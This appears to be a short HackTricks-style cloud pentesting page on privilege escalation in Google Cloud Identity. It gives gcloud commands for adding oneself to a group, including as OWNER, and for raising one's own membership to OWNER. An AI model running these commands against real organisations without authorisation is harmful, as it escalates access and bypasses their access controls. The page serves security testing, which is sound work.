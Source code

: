 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

For more information about the cloudidentity service, check this page:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### Add yourself to a group

If your user has enough permissions or the group is misconfigured, he might be able to make himself a member of a new group:

```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```

### Modify group membership

If your user has enough permissions or the group is misconfigured, he might be able to make himself OWNER of a group he is a member of:

```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```

{{#include ../../../banners/hacktricks-training.md}}
